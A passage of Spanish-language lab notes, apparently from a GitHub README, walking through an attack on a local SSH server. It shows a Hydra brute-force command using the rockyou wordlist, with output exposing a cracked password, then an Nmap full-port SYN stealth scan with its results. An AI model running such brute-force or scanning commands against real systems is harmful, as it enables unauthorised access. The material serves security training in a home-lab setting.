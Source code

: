 ```bash
hostname -I
```

- Supongamos que la IP del servidor es **192.168.0.108**.

---

## **3️⃣ Ataque de fuerza bruta con Hydra desde Kali Linux**

```bash
hydra -l jeremyserver -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.108
```

### **Explicación de los argumentos:**

- **`-l jeremyserver`** → Usuario objetivo.
- **`-P /usr/share/wordlists/rockyou.txt`** → Lista de contraseñas.
- **`ssh://192.168.0.108`** → Protocolo y dirección IP del objetivo.

### **Resultado exitoso:**

```
[22][ssh] host: 192.168.0.108   login: jeremyserver   password: password1
```

🔴 **SSH es vulnerable a ataques de fuerza bruta.**

---

## **4️⃣ Escaneo con Nmap para detectar puertos abiertos**

```bash
nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 192.168.0.108
```

### **Explicación de los argumentos:**

- **`-p-`** → Escanea **todos los puertos** (0-65535).
- **`-sS`** → Escaneo **SYN stealth** (rápido y sigiloso).
- **`-sC`** → Usa scripts básicos de reconocimiento.
- **`-sV`** → Detecta versiones de los servicios activos.
- **`--min-rate=5000`** → Acelera el escaneo.
- **`-n`** → No resuelve nombres de dominio (más rápido).
- **`-vvv`** → Muestra salida **detallada**.
- **`-Pn`** → No hace ping, **asume que el host está activo**.

### **Salida relevante:**

```
PORT   STATE SERVICE  VERSION
21/tcp open  ftp      vsftpd 3.0.5
22/tcp open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
```
